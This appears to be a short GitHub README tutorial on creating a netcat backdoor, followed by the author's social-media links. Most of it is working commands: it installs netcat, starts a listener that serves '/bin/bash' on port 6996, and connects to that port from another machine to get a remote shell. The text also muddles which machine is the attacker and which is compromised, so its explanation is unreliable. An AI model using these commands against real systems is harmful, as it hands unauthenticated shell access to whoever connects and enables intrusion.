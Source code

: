 IN THIS TOTURIAL YOU WILL LEARN HOW TO TAKE A BACKDOOR OF USING NETCAT.


STEP 1:  sudo apt-get install netcat

STEP 2:  on terminal one in kali type 

STEP 3:  nc -l -p 6996 -e /bin/bash (6996=port number you want to start listening)

STEP 4:  on the other computer terminal type 

STEP 5:  nc 192.168.0.? 6996 (ip address of the attcker machine and the port number on which attacker is listening)

STEP 5:  this will create a backdoor in kali machine and you will be able to use kali machine in the other comuter terminal.






____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________



